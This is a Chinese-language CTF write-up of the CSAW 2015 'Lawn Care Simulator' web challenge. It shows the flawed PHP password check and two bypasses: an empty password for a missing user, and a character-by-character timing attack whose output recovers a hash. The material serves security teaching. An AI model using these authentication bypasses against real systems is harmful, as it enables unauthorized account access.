 # Lawn Care Simulator
	Category: Web Points: 200 Description:

	http://54.165.252.74:8089/

## Write-up
在本地模拟了一下比赛的环境，得到flag。

### method 1
利用git泄露下载源码，分析如下代码:  

	require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    //这里存在问题,应该添加 $hash==NULL的判断
    //假设用户名不存在则 $hash 为空， $pass 输入也是为空，便可通过验证。
    
    if (strlen($pass) != strlen($hash))
        return False;
	echo $pass."</br>";
	echo $hash."</br>"; 
	
    $index = 0;
    while($hash[$index]){   //字节判断  存在基于时间的注入  假设某位为0 这个便不成立，直接跳出循环。
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);  //0.3s
        $index+=1;
    }
    return true;

输入 `username=admin & password=`  
即可绕过检查得到flag  

### method 2
得到username,在测试页面username中输入`%`，可得到用户名 `~~FLAG~~`  

基于时间的注入。写个python脚本，跑出hash值。结果如下:    

	30round : password is [242cb962ac59475b964b47152d234b7] *. 
	31round : [0] spend 9.322 seconds. 
	31round : [1] spend 9.334 seconds. 
	31round : [2] spend 9.322 seconds. 
	31round : [3] spend 9.314 seconds. 
	31round : [4] spend 9.322 seconds. 
	31round : [5] spend 9.333 seconds. 
	31round : [6] spend 9.32 seconds. 
	31round : [7] spend 9.322 seconds. 
	31round : [8] spend 9.322 seconds. 
	31round : [9] spend 9.349 seconds. 
	31round : [a] spend 9.313 seconds. 
	31round : [b] spend 9.313 seconds. 
	31round : [c] spend 9.322 seconds. 
	31round : [d] spend 9.334 seconds. 
	31round : [e] spend 9.623 seconds. 
	31round : [f] spend 9.323 seconds. 
	31round : password is [242cb962ac59475b964b47152d234b7e] *. 

## 参考
[https://github.com/Alpackers/CTF-Writeups/tree/master/2015/CSAW-CTF/Web/Lawn-Care-Simulator](https://github.com/Alpackers/CTF-Writeups/tree/master/2015/CSAW-CTF/Web/Lawn-Care-Simulator)  
[https://github.com/bl4de/ctf/blob/master/CSAW_CTF_2015/LawnCareimulator_Web200_writeup.md](https://github.com/bl4de/ctf/blob/master/CSAW_CTF_2015/LawnCareimulator_Web200_writeup.md "https://github.com/bl4de/ctf/blob/master/CSAW_CTF_2015/LawnCareimulator_Web200_writeup.md")
